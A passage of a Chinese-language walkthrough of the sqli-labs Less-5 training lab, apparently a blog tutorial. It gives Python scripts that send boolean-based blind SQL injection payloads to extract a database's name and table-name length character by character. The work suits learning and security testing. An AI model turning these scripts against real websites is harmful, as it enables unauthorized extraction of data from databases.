&emsp;&emsp;得出来长度后，我们就可以用ascii码去遍历一下，人工是不是很麻烦，拜托，咱们是计算机，要用编程~当然，数据库我们同样也可以用脚本跑出来。
```
import requests

url = 'http://sql-labs:3601/Less-5/'  # 目标URL
flag = "You are in..."  # 设置一个回显成功的字样


def get_database_length():
    global url, flag  # 全局变量
    length = 1
    while (1):
        payload = f"?id=1' and length((select database()))={length}--+"
        response = requests.get(url + payload).text
        if flag not in response:
            length += 1
        else:
            print("success")
            break
    print("数据库长度为", length)
    return length


if __name__ == "__main__":
    print("获取数据库长度")
    length = get_database_length()
```
&emsp;&emsp;回显长度为8，下一步遍历获取数据库名。根据上面提供的公式想好要改变哪些数，<font color=blue>细节2:ascii常规字符为0-127区间内，其中A(65)-Z(90),a(97)-z(122)</font>
```
def get_database_length2(database_length):
    global flag, url
    database = ""
    for i in range(1, database_length + 1):
        for j in range(65,122):
            payload = f"?id=1' and ascii(substr((select database()),{i},1))={j}--+"
            response = requests.get(url + payload).text
            if flag in response:
                database += chr(j)
                print("数据库名为",database)
                break
    return database


if __name__ == "__main__":
    print("获取数据库长度")
    length = get_database_length()
    print("获取数据库名")
    length_name = get_database_length2(length)
```
&emsp;&emsp;遍历出数据库名security，那么其他同理，只要将payload改一下下就可以了。判断表长度
```
def get_table_length():
    global flag, url
    length = 1
    while(1):
        payload = f"?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))={length}--+"
        response = requests.get(url + payload).text
        if flag not in response:
            length += 1
        else:
            print("success")
            break
    print("表长度为",length)
```